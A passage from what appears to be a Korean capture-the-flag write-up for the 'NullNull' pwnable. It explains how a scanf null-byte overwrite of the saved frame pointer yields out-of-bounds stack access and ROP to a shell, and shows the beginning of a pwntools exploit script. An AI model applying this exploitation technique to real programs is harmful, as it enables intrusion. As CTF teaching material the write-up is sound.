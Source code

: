 ```python

        return False

gdb.execute("file nonsense")

gdb.execute("aslr off")

bpa("* 0x555555400B7A")
bpb("* 0x555555400b7f")

gdb.execute("r asdfasdfasdfsadfasdfasdfasdfsadfasdfasdfasdfsadf")
```

## E. NullNull - Pwnable

바이너리를 분석해보면 아래와 같은 함수가 있다.

```c
int sub_13BD(){
  __int64 v1; // [rsp-50h] [rbp-50h]

  if ( __isoc99_scanf("%80s", &v1) != 1 )
    _exit(1);
  return puts(&v1);
}
```

안전하게 입력 받은 문자열을 그대로 출력해주는 것 같지만, `scanf`의 `%s`로 입력을 받기 때문에\
`v1[입력받은 문자열의 길이]`에 0이 들어가게 되어서 `sfp`의 최하위 바이트를 0으로 덮을 수가 있다.\
때문에, rbp의 값이 비정상적으로 변하게 되고, 함수의 리턴이 연속으로 2회 일어나게 되면 rip가 의도되지 않은 곳으로 이동한다.

또한, `sub_13BD`의 상위 함수의 변수들은 rbp를 기반으로 참조되기 때문에\
스택의 8bytes read write 인덱스를 제한하는 기존의 32라는 값이 저장된 스택의 주소가 아니라\
변조된 rbp를 통해 다른 주소의 값을 참조하게 하면서 스택의 read write 과정에서 oob가 발생하게 된다.

따라서 올바르게 작동하는 경우의 수 하나를 이용하여 ROP를 하는 익스플로잇을 짜고\
아다리가 맞을 때까지 연결하면 쉘을 얻을 수 있다.

> Exploit Script

```python
from pwn import *
import struct

e = ELF('./nullnull_patched')
libc = e.libc

def read(idx):
    log.info(f'read({idx=})')
    p.sendline(b'3')
    p.sendline(str(idx).encode())

def write(idx, val):
    log.info(f'write({idx=}, {val=})')
    p.sendline(b'2')
    p.sendline(str(idx).encode())
    p.sendline(str(val).encode())

def echo(val):
    log.info(f'echo({val=})')
    p.sendline(b'1')
    p.sendline(val)

def re():
    log.info(f're()')
    p.sendline(b'0')
```